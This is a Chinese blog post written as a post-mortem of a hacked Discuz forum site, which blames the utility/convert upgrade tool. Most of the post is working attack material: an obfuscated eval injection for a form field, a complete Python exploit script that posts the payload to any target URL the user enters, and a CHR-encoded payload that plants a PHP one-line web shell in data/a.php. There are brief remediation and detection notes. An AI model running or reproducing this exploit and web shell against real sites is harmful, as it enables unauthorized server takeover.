 ```yaml
---
title: 140126 discuz站点被黑,复盘
layout: post
permalink: /2719.html
views:
  - 25
categories:
  - Code
tags:
  - discuz
  - utility
  - 漏洞
---
```

手里一个站点被黑了 也就是大概2013-12-20号左右，乌云爆了一个关于discuz安装包中自带升级转化工具配置未过滤得漏洞，当时没有注意，并不认为自己会犯这样的错。 事实狠狠的给了我一个巴掌。在这里我不得不说discuz,360safe,anquan这类的网站实时性很差。

### discuz utility 漏洞修复

删除 utility目录即可。

### 具体漏洞演示：

访问：www.80aj.com/utility/convert/index.php

[<img src="http://pic.80aj.com/2014/01/ld-300x200.jpg" alt="ld" width="300" height="200" class="aligncenter size-medium wp-image-2721" />][1]  
修改表单 新增输入项

<pre class="brush: php; title: ; notranslate" title="">&lt;input type="text" name="newconfig[aaa eval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).
CHR(84).CHR(91).CHR(99).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]" size="40" value="localhost" /&gt;

</pre>

### discuz漏洞 直接黑客利用Python代码:

<pre class="brush: php; title: ; notranslate" title="">#coding=utf-8
#Nx4dm1n 2013-12
import httplib, urllib
def dzconvertexp(url,vulfile):
    allvulfile=vulfile+'convert/index.php'
    target='http://'+url+vulfile
    page=urllib.urlopen(target)
    html=page.read()
    httpresponse=page.getcode()
    if httpresponse==200:
        httpClient = None
        try:
            params ='a=config&source=d7.2_x2.0&submit=yes&newconfig%5Bsource%5D%5Bdbhost%5D=localhost&newconfig%5Baaa%0D%0A%0D%0Aeval%28CHR%28101%29.CHR%28118%29.CHR%2897%29.CHR%28108%29.CHR%2840%29.CHR%2834%29.CHR%2836%29.CHR%2895%29.CHR%2880%29.CHR%2879%29.CHR%2883%29.CHR%2884%29.CHR%2891%29.CHR%2899%29.CHR%2893%29.CHR%2859%29.CHR%2834%29.CHR%2841%29.CHR%2859%29%29%3B%2F%2F%5D=localhost'
            print params
            headers = {"Content-type": "application/x-www-form-urlencoded", "Accept": "text/html"}
 
            httpClient = httplib.HTTPConnection(url, 80, timeout=10)
            httpClient.request("POST",allvulfile, params, headers)
            response = httpClient.getresponse()
            print response.getheaders()
        except Exception, e:
            print e
        finally:
            if httpClient:
                httpClient.close()
    else:
        print 'no'
 
#输入目标url和convert的目录，常见的是/utility/目录，或者就直接是在根目录下
url=raw_input('Input url(No http):')
dirm=raw_input('Input the convert directory(ex:/utility/):')
dzconvertexp(url,dirm);
</pre>

<pre class="brush: php; title: ; notranslate" title="">//黑客代码 
chr(102).chr(112).chr(117).chr(116).chr(115).chr(40).chr(102).chr(111).chr(112).chr(101).chr(110).chr(40).chr(39).chr(100).chr(97).chr(116).chr(97).chr(47).chr(97).chr(46).chr(112).chr(104).chr(112).chr(39).chr(44).chr(39).chr(119).chr(39).chr(41).chr(44).chr(39).chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(99).chr(109).chr(100).chr(93).chr(41).chr(63).chr(62).chr(39).chr(41).chr(59);

//转换后的值
fputs(fopen('data/a.php','w'),'&lt;?php eval($_POST[cmd])?&gt;');


//其中几个数值是一句话木马必备的  查杀的时候需要分开

chr(101);
chr(118);
chr(97);
chr(108);
chr(69);
chr(86);
chr(65);
chr(76);
</pre>

资料参考：

http://www.myhack58.com/Article/html/3/62/2013/41505.htm

http://www.wooyun.org/bugs/wooyun-2010-014681

http://www.nxadmin.com/penetration/1224.html

 [1]: http://pic.80aj.com/2014/01/ld.jpg